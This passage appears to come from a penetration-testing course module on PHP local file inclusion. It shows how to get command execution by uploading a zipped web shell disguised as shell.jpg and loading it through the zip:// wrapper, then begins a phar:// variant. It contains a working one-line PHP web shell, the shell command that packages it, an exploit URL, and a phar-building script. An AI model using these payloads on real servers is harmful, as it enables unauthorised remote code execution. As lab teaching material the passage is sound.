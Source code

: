 ***

### Zip Upload

As mentioned earlier, the above technique is very reliable and should work in most cases and with most web frameworks, as long as the vulnerable function allows code execution. There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

```shell-session
smoothment@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:

&#x20; &#x20;

```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

As we can see, this method also works in executing commands through zipped PHP scripts.

**Note:** We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.

***

### Phar Upload

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:
